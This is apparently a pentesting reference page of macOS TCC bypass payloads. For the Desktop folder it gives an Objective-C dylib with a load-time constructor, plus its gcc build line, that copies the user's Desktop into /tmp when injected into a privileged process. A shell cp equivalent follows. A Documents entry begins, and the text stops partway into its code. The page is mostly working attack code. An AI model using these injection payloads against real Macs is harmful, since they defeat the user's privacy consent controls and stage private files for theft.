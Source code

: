 # macOS TCC Payloads


### Desktop

- **Entitlement**: None
- **TCC**: kTCCServiceSystemPolicyDesktopFolder

**ObjetiveC**
Copy `$HOME/Desktop` to `/tmp/desktop`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Desktop"];
    NSString *tmpPhotosPath = @"/tmp/desktop";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
```

**Shell**
Copy `$HOME/Desktop` to `/tmp/desktop`.

```bash
cp -r "$HOME/Desktop" "/tmp/desktop"
```
```


### Documents

- **Entitlement**: None
- **TCC**: `kTCCServiceSystemPolicyDocumentsFolder`

**ObjetiveC**
Copy `$HOME/Documents` to `/tmp/documents`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
```